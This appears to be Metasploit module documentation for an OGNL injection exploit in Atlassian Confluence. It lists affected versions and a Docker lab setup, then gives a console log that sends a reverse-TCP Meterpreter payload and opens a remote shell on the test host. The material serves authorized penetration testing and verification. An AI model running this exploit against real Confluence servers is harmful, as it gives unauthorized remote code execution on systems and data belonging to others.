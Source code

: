 ## Vulnerable Application
This module exploits an OGNL injection in Atlassian Confluence servers. A specially crafted URI can be used to evaluate
an OGNL expression resulting in OS command execution.

Confluence versions up to and including 7.18 are technically vulnerable to the OGNL injection flaw. However, versions
after 7.14 (that is 7.15 and later) are not exploitable by this module for code execution due to the restrictions on the
OGNL execution environment. Version 7.13 (affected) was the latest Long-Term-Support (LTS) release at the time this
vulnerability was disclosed.

### Setup

1. Create a new `docker-compose.yml` file with the contents below.
2. Startup the container using `docker-compose up`
3. Navigate to the HTTP service running on port 8090
4. Acquire and provide an evaluation license
5. When prompted, setup a standalone / non-clustered system
6. Configure the database settings
    1. Select "By connection string", then Database URL: `jdbc:postgresql://postgresql:5432/confdb`
    2. Username and password are both `confdb`
7. Setup takes a few minutes
8. When prompted, select "Empty Site"
9. Select "Manage users and groups within Confluence"
10. Create an account, it **will not** be needed for exploitation
11. Once setup has completed select "Start" and set a space name to something

#### Docker Compose File

```
version: '3'

services:
  postgresql:
    image: postgres:11
    environment:
      POSTGRES_DB: confdb
      POSTGRES_USER: confdb
      POSTGRES_PASSWORD: confdb
    ports:
      - '5432:5432'

  confluence-server:
    depends_on:
      - postgresql
    image: atlassian/confluence:7.13.0
    ports:
      - '8090:8090'
      - '8091:8091'
```

## Verification Steps

1. Follow the steps from the Setup section to create a test instance
2. Start msfconsole
3. Run: `use exploit/multi/http/atlassian_confluence_namespace_ognl_injection`
4. Set the `RHOSTS`, `PAYLOAD` and payload-related options
5. Run the module

## Options

## Scenarios

### Confluence 7.13.0 in [Docker]

```
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set RHOSTS 192.168.159.100
RHOSTS => 192.168.159.100
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > check
[+] 192.168.159.100:8090 - The target is vulnerable. Successfully tested OGNL injection.
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Executing cmd/unix/python/meterpreter/reverse_tcp (Unix Command)
[*] Sending stage (40132 bytes) to 192.168.159.100
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.100:42050) at 2022-06-03 17:14:41 -0400

meterpreter > getuid
Server username: confluence
meterpreter > sysinfo
Computer        : 5052c5eebf8a
OS              : Linux 5.15.0-35-generic #36-Ubuntu SMP Sat May 21 02:24:07 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```
